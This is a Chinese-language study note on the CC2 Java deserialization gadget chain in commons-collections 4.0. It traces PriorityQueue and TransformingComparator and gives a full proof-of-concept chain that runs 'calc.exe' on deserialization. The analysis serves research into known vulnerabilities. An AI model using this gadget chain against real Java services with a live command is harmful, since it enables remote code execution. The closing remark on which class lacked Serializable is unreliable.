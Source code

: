 - [CC2链](#cc2链)
  - [PriorityQueue](#priorityqueue)
    - [PriorityQueue#readObject](#priorityqueuereadobject)
    - [PriorityQueue#heapify](#priorityqueueheapify)
    - [PriorityQueue#siftDown](#priorityqueuesiftdown)
    - [PriorityQueue#siftDownUsingComparator](#priorityqueuesiftdownusingcomparator)
  - [TransformingComparator#compare](#transformingcomparatorcompare)
  - [POC构造](#poc构造)
  - [调用流程图](#调用流程图)
  - [commons-collections 4.1](#commons-collections-41)
# CC2链
依赖包:  commons-collections 4.0
## PriorityQueue
### PriorityQueue#readObject
PriorityQueue类是一个优先队列数据结构,其实现序列化接口并重写了readObject()如下  
![](2021-12-27-22-21-28.png)
其中`queue`属性定义如下
![](2021-12-27-22-23-29.png)
这两个属性被`transient`修饰,本不会被反序列化,但在其重写的`readObject`中还是手动的反序列化了`queue`.
```java
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();
```
在最后还调用了`heapify`方法.
### PriorityQueue#heapify
`heapify`方法如下
![](2021-12-27-22-28-07.png)
其中当size大于2时会进入`siftDown`方法中
### PriorityQueue#siftDown
![](2021-12-27-22-37-24.png)
在`siftDown`中根据`comparator`的有无会进入不同的流程.
### PriorityQueue#siftDownUsingComparator
而在`siftDownUsingComparator`分支中存在这么一处调用`comparator.compare(x, (E) c)`.
![](2021-12-27-22-38-59.png)
其调用了`comparator`对象的`compare`方法,而`comparator`在其构造函数中设置如下.
![](2021-12-27-22-52-55.png)
## TransformingComparator#compare
在commons-collections中有一个实现了序列化接口和Comparator的类为`TransformingComparator`,其`compare`方法如下
![](2021-12-27-22-41-17.png)
其中调用了`this.transformer.transform`,也就是说当我们指定this.transformer为CC1中`transform`类即可进入`transform`利用链.  
而`this.transformer`属性在其构造函数中设置.
![](2021-12-27-22-43-02.png)
## POC构造
首先创建一个`PriorityQueue`对象,其要满足以下几个条件才能正常执行readObject()
* size > 2,利用`PriorityQueue`提供的add方法来添加两个元素.
* comparator要先为空,不然在添加第二个元素时会调用`his.decorated.compare(value1, value2)`,而`ProcessImpl`因为没有实现`Comparable`从而导致序列化时失败,所以需要利用反射在添加完元素后再设置`comparator`的值.

首先生成`transform`利用链,与CC1一样.
```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
```
完整POC:
```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(2);
        Field comparator = queue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(queue, transformingComparator);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
```
调用栈如下:
![](2021-12-27-23-13-03.png)
## 调用流程图
![](2021-12-27-23-17-03.png)
## commons-collections 4.1
commons-collections 4.0之后直接修改了`InvokerTransformer`类,其取消了之前实现的`Serializable`接口,导致序列化失败.
而在commons-collections 4.0之前`PriorityQueue`类还没有实现`Serializable`接口,导致无法利用.